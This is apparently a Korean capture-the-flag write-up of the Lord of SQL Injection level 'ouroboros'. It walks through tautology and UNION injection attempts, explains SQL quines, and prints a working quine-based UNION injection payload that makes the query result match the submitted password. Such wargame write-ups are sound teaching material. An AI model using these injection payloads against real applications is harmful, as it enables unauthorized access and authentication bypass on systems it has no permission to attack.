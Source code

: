 ```yaml
---
title: LOS - 30번 ouroboros
category: Lord of SQL Injection
---
```


# [30] ouroboros

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FPLStF%2FbtrpwOBniqR%2Fk4UuZ0WXEm8MfJKfJHtKe0%2Fimg.png">

## 풀이

쿼리의 결과와 사용자의 입력값이 일치하는 지 검증하는 문제다.

pw를 찾아내면 쉽게 풀 수 있는 문제이기 때문에 아마 테이블 내부에 pw 값이 없을 것 같았다...

<br>

확인을 위해 where절을 True로 만들어줄 수 있는 쿼리를 주입해보았다.

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fbj49zN%2FbtrpqylywrC%2FthfadP8wuzaMwvKIL3k6pk%2Fimg.png">

테이블에 pw가 있다면 값이 뜰텐데... 감감무소식이었다.

아무래도 예상했듯 테이블에 pw가 없는 것 같았다.

<br>

다음은 union을 사용해 1을 기존 테이블에 붙여보았다.

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fcd7R8j%2FbtrpyiWt8tZ%2FpmP1DlnD3fLOQjcku3LhT0%2Fimg.png">

이런 식으로 pw를 넣어주면 될 것 같은데...

문제는 쿼리의 결과인 pw 값과 사용자 입력값이 같아야한다는 점에 있다.

<br>

어떻게 해주면 될 지 답이 안나와서 힌트를 서치해보았다.

<br>

답은 **Quine**이었다.

Quine이란 자기자신의 소스 코드를 그대로 반환하는 프로그램을 말한다.

Sql로도 Quine을 만들 수가 있는데, 사실 직접 로직을 생각해내는 것 보다는 서치의 힘을 빌려야하는 것 같다.

<br>

다음은 대표적인 **Quine Query**의 예시다.

```sql
SELECT REPLACE(REPLACE('SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")',CHAR(34),CHAR(39)),CHAR(36),'SELECT REPLACE(REPLACE("$",CHAR(34),CHAR(39)),CHAR(36),"$")');
```

<br>

이를 적용하여 만든 최종 쿼리문은 다음과 같다.

```
'union select replace(replace('"union select replace(replace("$",char(34),char(39)),char(36),"$")%23',char(34),char(39)),char(36),'"union select replace(replace("$",char(34),char(39)),char(36),"$")%23')%23
```

## 결과

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fs6Ugl%2Fbtrpu2sSfkX%2Fl9Y0Z3lPlbSJ6pG9V72RcK%2Fimg.png">